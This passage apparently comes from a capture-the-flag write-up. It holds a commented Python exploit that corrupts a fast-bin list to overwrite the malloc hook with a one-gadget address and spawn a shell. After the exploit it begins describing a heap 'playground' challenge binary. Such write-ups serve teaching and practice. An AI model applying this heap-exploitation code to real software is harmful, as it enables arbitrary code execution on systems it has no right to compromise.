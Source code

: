 ```python

# the vuln code will use chunk_c like it's both still allocated
# and like it is not
# which means that we can write a target address into memory
# and we can override the hook of the malloc function to get
# arbitrary code execution when its called
chunk_c = alloc(size)
write_chunk(chunk_c, p64(malloc_hook-0x23))

alloc(size)             
alloc(size)

# with the following call to alloc()
# we are going to allocate a new chunk into a fast bin
# the fast bin address will be taken from the fast bin
# double linked list which we corrupted to point to an
# arbitrary address instead of the one of a valid chunk
# this means that we will allocate and make writable any
# part of the memory pointed by the address we wrote before
target = alloc(size)

# we will do what we just described to write the address of
# a batch of instructions that will spawn a shell in place of
# the hook of the malloc function
write_chunk(target, b'A'*(35-16) + p64(one_gadget))

# we will call the malloc function, since now it's hook
# points to the magic gadget, a shell will be spawned instead
# of calling the malloc
input('press any key to execute payload...')
r.recvuntil(b"> ")
r.sendline(b"1")
r.recvuntil(b"Size: ")
input('press any key...')
r.sendline(b"%d" % size)
r.interactive()
```

## playground

### What does it do

It has only the `main` function which encompasses all the functionality. There are some nested loops that executes the following functionalities:

```shell
malloc n, free p, show p [n], write p [n]
```

Basically it can:

* Allocate a chunk of size `n` and return its address
* Free a chunk, given its address `p`
* Show the content of a chunk given `p`. By default it shows the first 8 bytes of data, unless a size `n` is specified.
* Write some data into a chunk, given `p`.
